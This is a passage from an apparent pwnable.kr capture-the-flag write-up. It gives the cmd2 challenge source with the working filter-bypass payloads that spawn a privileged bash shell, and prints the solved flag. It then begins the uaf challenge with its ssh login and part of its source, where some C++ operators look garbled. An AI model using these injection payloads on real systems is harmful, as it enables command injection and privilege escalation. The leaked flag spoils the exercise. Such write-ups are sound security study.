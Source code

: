 ```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "=")!=0;
        r += strstr(cmd, "PATH")!=0;
        r += strstr(cmd, "export")!=0;
        r += strstr(cmd, "/")!=0;
        r += strstr(cmd, "`")!=0;
        r += strstr(cmd, "flag")!=0;
        return r;
}

extern char** environ;
void delete_env(){
        char** p;
        for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
        delete_env();
        putenv("PATH=/no_command_execution_until_you_become_a_hacker");
        if(filter(argv[1])) return 0;
        printf("%s\n", argv[1]);
        system( argv[1] );
        return 0;
}
```

`./cmd2 '$(printf "%bbin%bbash -p" "\57" "\57")'`

(и гениальное)

`./cmd2 '$(read x; echo $x)'`

`FuN_w1th_5h3ll_v4riabl3s_haha`

## [](#header-2)uaf

> Mommy, what is Use After Free bug?
> 
> ssh uaf@pwnable.kr -p2222 (pw:guest)

```c
#include <fcntl.h>
#include <iostream> 
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
        virtual void give_shell(){
                system("/bin/sh");
        }
protected:
        int age;
        string name;
public:
        virtual void introduce(){
                cout < "My name is " < name < endl;
                cout < "I am " < age < " years old" < endl;
        }
```